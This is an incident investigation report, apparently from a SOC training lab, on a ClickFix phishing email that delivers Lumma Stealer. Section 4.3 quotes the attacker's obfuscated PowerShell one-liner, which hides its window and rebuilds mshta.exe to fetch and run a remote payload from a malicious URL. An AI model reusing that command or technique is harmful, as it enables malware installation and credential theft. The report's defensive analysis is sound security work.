

# Case 001: ClickFix Phishing Leading to Lumma Stealer Execution via mshta.exe

| Field | Detail |
|---|---|
| **Case ID** | 001 |
| **Date of Investigation** | 2026-07-04 |
| **Analyst** | Jangho H.  |
| **Alert Source** | SIEM — Rule SOC338: Lumma Stealer - DLL Side-Loading via Click Fix Phishing |
| **Severity (as triggered)** | Critical |
| **Category** | Phishing |
| **Verdict** | True Positive |

## 1. Alert Summary [완]

On Mar 13, 2025, 09:44 AM, SIEM rule SOC338 (Lumma Stealer - DLL Side-Loading via Click Fix Phishing) triggered on a suspicious inbound email. 

The email was sent from update@windows-update.site (SMTP address: 132.232.40.201) to dylan@letsdefend.io, with the subject "Upgrade your system to Windows 11 Pro for FREE". 

The rule fired because the linked site contained a ClickFix-type script associated with Lumma Stealer distribution. 

The Device Action was "Allowed", meaning the email reached the user's mailbox; where the user interacted with it became the central question of this investigation.

## 2. Initial Triage Questions [완]

- Is the sender domain legitimate or newly registered?

- Did the recipient click the link and download something?

- Were there other endpoints that received the same email?

## 3. Investigation Timeline [완]

| Time (UTC) | Event / Action | Source |
|---|---|---|
| 09:44 | Email delivered to victim mailbox from `update@windows-update[.]site` | Email gateway log |
| 23:26 | Recipient clicked the suspicious link | Proxy log |
| 23:26:19 | Powershell executed by recipient | Endpoint |
| 23:26:20 | mshta.exe executed | Endpoint |
| 23:26:20 | mshta.exe sent GET request for payload | Proxy log |
| 23:26:20 | Outbound connection to C2 172.67.139[.]19 | Firewall log |
| 23:26:31 | Second (nested) PowerShell logged, same PID 624 | Endpoint |

## 4. Evidence & Analysis

### 4.1 Sender & Email Analysis [완]

**Fact**
The email contained the contents suggesting upgrade Windows 11 Pro for free to users from domain 'update@windows-update.site' 

There was a link button (UPDATE NOW) and timer with title 'Before the action ends'  

**Analysis**
Since the platform didn't provide the origin of email, I could not analyse the full email headers (SPF/DKIM/DMARC). 

Instead, there were several indicators related to human factors. 

First, The urgent action required with timer. 
This indicates it lures the user into taking action immediately

Second, The sender's domain was observed in Threat Intelligence labeled as 'LUMMA Stealer' 
This indicates the domain is related to malicious.

### 4.2 Log Analysis [완]

**Fact**
The two logs contained the domain ('windows-update.site') was observed in Log Management. 

The first log information below: 
- DATE: Mar, 13, 2025, 09:44 AM 
- TYPE: Exchange 
- SRC ADDRESS: 132.232.40.201 
- SRC PORT: 23542 
- DEST ADDRESS: 172.16.20.3
- DEST PORT: 25

The Second log information below: 
- DATE: Mar, 13, 2025, 11:26 PM
- TYPE: Proxy
- SRC ADDRESS: 172.16.17.216 
- SRC PORT: 27672
- DEST.ADDRESS: 132.232.40.201
- DEST.PORT: 443 

**Analysis**
In First log, the attacker's mail server delivered the phishing email to the organization's Exchange server (172.16.20.3).

In Second log, it shows the recipient accessed the phishing domain.  

### 4.3 Endpoint Execute Analysis [완]

**Fact**
The endpoint logs showed the following execution chain:

**First event**
-EVENT TIME: MAR 13 2025 23:26:19
-PROCESS NAME: powershell.exe 
-PARENT PROCESS: explorer.exe
-COMMAND LINE: 

"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -w 1 powershell -Command ('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']') # ✅ ''I am not a robot - reCAPTCHA Verification ID: 3824''

**Second event**
-EVENT TIME: MAR 13 2025 23:26:20
-PROCESS NAME: mshta.exe 
-PARENT PROCESS: powershell.exe 
-FILE HASH: 15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03
-COMMAND LINE: 

"C:\Windows\System32\mshta.exe" https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4

**Analysis**
In the first event, the attacker seemed to use obfuscation not to be detected by security. 

They hid the window using '-w 1', and obfuscated using character ']'. 
After that, they used '-replace' command to execute to the next step. 

On top of that, they commented out reCAPTCHA wording to make it look legitimate contents.

In the second event, after the first powershell code be executed to apply 'replace' command, the suspicious file named 'maloy.mp4' was downloaded using mshta.exe. 

After checking file hash of this file in Virustotal,'21/59 security vendors flagged this file as malicious' indicated. 

## 5. Indicators of Compromise (IOCs) [완]

| Type | Value | Context |
|---|---|---|
| Domain | `windows-update[.]site` | Looks like a phishing domain, registered 2025-03-13 |
| IP | `132.232.40.201` | Hosting server for phishing page and mail origin |
| URL | `https[:]//www.windows-update[.]site/` | Credential harvesting page |
| Email | `update@windows-update[.]site` | Sender address |
| File Hash | `15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03` | malicious file hash |

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Observed in this case
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Phishing email with link to fake Windows 11 page |
| Execution | User Execution: Malicious Copy and Paste | T1204.004 | User pasted ClickFix command into Win+R |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | powershell -w 1 executed the pasted command |
| Stealth | Obfuscated Files or Informationr | T1027 | -replace ']' reconstructed mshta.exe at runtime | 
| Stealth | System Binary Proxy Execution: Mshta | T1218.005 | mshta.exe proxied execution of remote payload |

## 7. Verdict & Rationale

**True Positive**

1. Malicious infrastructure - domain flagged as Lumma Stealer in Threat intelligence; payload file flagged malicious on VirusTotal.
2. Confirmed user interaction - proxy logs confirm the recipient accessed the phishing domain.
3. Confiremed malicious execution - the endpoint process chain (explorer.exe -> powershell.exe -> mshta.exe) shows an obfuscated command executed and retrieved a remote Lumma Stealer payload.

## 8. Scope Assessment

A search for other recipients of the same email returned no results; no other users received it.

## 9. Containment & Remediation Actions

**Containment** 
1. Isolate host
     - disconnect the host endpoint (dylan) from network 
     Why? 
          -To block connect between malware and C2 server 
          -To block lateral movement utilizing stolen credential 
2. Delete phishing email
     - delete phishing email in recipient's mailbox 
     Why?
          -To block click link again mistakenly 

**Remediation**
1. Password reset & session invalidation 
     Why?
          -One of the purpose of Lumma Stealer is to get credential. It can be lead to be utilized so the stolen credentials must be assumed compromised and reset.
2. Identified IOC Block in proxy & firewall 
     Why?
          -To prevent the same method   

## 10. Recommendations

1. Restrict mshta.exe execution via application control (after baselining legitimate usage)
     - Depends on company if it is not used, block or limit used of 'mshta' execute.
2. Add detection rule
     - Add a detection rule for powershell.exe spawning mshta.exe with an external URL argument, and for command lines containing string-replace obfuscation patterns.
3. Filter new registered domain
     - There is a possibility of registered domain right before the attack 
4. User training
     - The method 'ClickFix' requires the user to put command into themself. It means that it's not only require technical but also human factor.
